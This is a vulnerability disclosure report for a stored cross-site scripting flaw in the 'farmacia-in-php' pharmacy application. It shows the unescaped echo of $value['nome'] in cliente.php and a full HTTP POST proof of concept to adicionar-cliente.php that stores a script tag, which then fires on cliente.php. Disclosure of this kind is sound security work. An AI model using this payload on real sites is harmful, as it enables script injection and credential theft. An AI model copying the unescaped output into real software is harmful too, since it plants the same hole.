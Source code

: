 # farmacia-in-php has Based Cross Site Scripting vulnerability via $nome parameter in cliente.php.

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
cliente.php and $nome parameter
## describe
There is an  Cross Site Scripting vulnerability in farmacia-in-php in cliente.php,  Control parameter: **$value['nome']**

Malicious attackers can use this cross-site scripting vulnerability to conduct phishing attacks and obtain administrator login information and permissions.

## code analysis

echo $value['nome'] without filtering，And $value['nome'] is obtained from the database.This causes a stored cross-site scripting vulnerability

```
   <td><?php echo $value['nome']?></td>
```

![image-20241113112138909](https://github.com/user-attachments/assets/cfea0496-1d9e-4317-b878-1fd9b55e64a9)

![image-20241113112157718](https://github.com/user-attachments/assets/e43a232d-b90b-4a88-b492-c90210f4470f)

## POC

Inset the Scripting  into databases.

```
POST /adicionar-cliente.php HTTP/1.1
Host: farmacia
Content-Length: 1030
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://farmacia
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIpXK3FdEXDxx83Jb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://farmacia/adicionar-cliente.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryIpXK3FdEXDxx83Jb
Content-Disposition: form-data; name="nome"

<script>alert(123);</script>
------WebKitFormBoundaryIpXK3FdEXDxx83Jb
Content-Disposition: form-data; name="cpf"

1
------WebKitFormBoundaryIpXK3FdEXDxx83Jb
Content-Disposition: form-data; name="dataNascimento"

2024-11-16
------WebKitFormBoundaryIpXK3FdEXDxx83Jb
Content-Disposition: form-data; name="endereco"

1
------WebKitFormBoundaryIpXK3FdEXDxx83Jb
Content-Disposition: form-data; name="numero"

1
------WebKitFormBoundaryIpXK3FdEXDxx83Jb
Content-Disposition: form-data; name="bairro"

1
------WebKitFormBoundaryIpXK3FdEXDxx83Jb
Content-Disposition: form-data; name="telefone"

1
------WebKitFormBoundaryIpXK3FdEXDxx83Jb
Content-Disposition: form-data; name="celular"

1
------WebKitFormBoundaryIpXK3FdEXDxx83Jb
Content-Disposition: form-data; name="email"

1@o.com
------WebKitFormBoundaryIpXK3FdEXDxx83Jb
Content-Disposition: form-data; name="acao"


------WebKitFormBoundaryIpXK3FdEXDxx83Jb--
```

**Result**

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://farmacia/cliente.php
```

![image-20241113112722044](https://github.com/user-attachments/assets/cf1c8340-f6e0-4310-9eb7-c9e99e469ad9)